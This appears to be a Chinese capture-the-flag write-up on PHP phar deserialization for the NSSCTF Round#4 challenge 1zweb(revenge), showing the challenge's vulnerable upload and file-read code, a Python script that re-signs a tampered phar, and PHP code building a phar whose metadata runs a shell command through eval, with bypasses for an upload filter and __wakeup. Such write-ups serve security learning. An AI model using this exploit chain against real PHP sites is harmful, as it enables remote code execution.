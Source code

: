   *   *   *   *   *   *   *   *   *   * 

    
    
    from hashlib import sha1with open('phar.phar', 'rb') as file:    f = file.read()     # 修改内容后的phar文件,以二进制文件形式打开 s = f[:-28] # 获取要签名的数据（对于sha1签名的phar文件，文件末尾28字节为签名的格式）h = f[-8:] # 获取签名类型以及GBMB标识，各4个字节newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB) with open('newPhar.phar', 'wb') as file:    file.write(newf) # 写入新文件

  
运行脚本得到的 newPhar.phar 就可以正常使用啦。

###  

###  **案例**

  
题目来源：NSSCTF Round#4 Team-1zweb(revenge)  
前面任意文件读取拿到源码就不说了，重点看它这个phar反序列化  
index.php：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass LoveNss{    public $ljt;    public $dky;    public $cmd;    public function __construct(){//__wakeup执行后__construct并不会执行        $this->ljt="ljt";        $this->dky="dky";        phpinfo();    }    public function __destruct(){        if($this->ljt==="Misc"&&$this->dky==="Re")            eval($this->cmd);    }    public function __wakeup(){//需要绕过__wakeup,更改序列化属性个数即可绕过        $this->ljt="Re";        $this->dky="Misc";    }}$file=$_POST['file'];if(isset($_POST['file'])){    if (preg_match("/flag/i", $file)) {        die("nonono");    }    echo file_get_contents($file);}

  
upload.php：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpif ($_FILES["file"]["error"] > 0){    echo "上传异常";}else{    $allowedExts = array("gif", "jpeg", "jpg", "png");    $temp = explode(".", $_FILES["file"]["name"]);    $extension = end($temp);    if (($_FILES["file"]["size"] && in_array($extension, $allowedExts))){        $content=file_get_contents($_FILES["file"]["tmp_name"]);        $pos = strpos($content, "__HALT_COMPILER();");//ban掉了明文的stub标识        if(gettype($pos)==="integer"){            echo "ltj一眼就发现了phar";        }else{            if (file_exists("./upload/" . $_FILES["file"]["name"])){                echo $_FILES["file"]["name"] . " 文件已经存在";            }else{                $myfile = fopen("./upload/".$_FILES["file"]["name"], "w");                fwrite($myfile, $content);                fclose($myfile);                echo "上传成功 ./upload/".$_FILES["file"]["name"];            }        }    }else{        echo "dky不喜欢这个文件 .".$extension;    }}?>

  
分析源码可知ban掉了 __HALT_COMPILER(); 标识，没有这个是不认phar的，这个可以使用gzip压缩进行绕过。  
__wakeup 修改序列属性个数即可绕过，注意修改完phar文件后还需重新签名，用上文的脚本即可。  
生成phar：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass LoveNss{    public $ljt;    public $dky;    public $cmd;    public function __construct($ljt, $dky, $cmd){        $this->ljt = $ljt;        $this->dky = $dky;        $this->cmd = $cmd;    }} @unlink("phar.phar");$phar = new Phar("phar.phar"); //后缀名必须为phar$phar->startBuffering();$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub$o = new LoveNss("Misc", "Re", "cat /flag");$phar->setMetadata($o); //将自定义的meta-data存入manifest$phar->addFromString("test.txt", "test"); //添加要压缩的文件//签名自动计算$phar->stopBuffering();
